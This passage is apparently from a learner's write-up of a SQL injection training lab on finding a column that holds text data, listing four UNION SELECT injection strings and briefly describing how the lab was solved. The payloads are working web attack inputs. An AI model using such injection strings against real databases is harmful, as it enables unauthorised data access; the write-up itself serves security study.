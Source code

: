 `' UNION SELECT 'a',NULL,NULL,NULL--`&#x20;

`' UNION SELECT NULL,'a',NULL,NULL--`&#x20;

`' UNION SELECT NULL,NULL,'a',NULL--`&#x20;

`' UNION SELECT NULL,NULL,NULL,'a'--`

If the column data type is not compatible with string data, the injected query will cause a database error,

### Lab: SQL injection UNION attack, finding a column containing text

for this one i first determined the number of columns, it took me 3 NULL's to bypass the error, i then inputted the requested string in the different columns to finally solve the lab:

<figure><img src="../../.gitbook/assets/image (834).png" alt=""><figcaption></figcaption></figure>
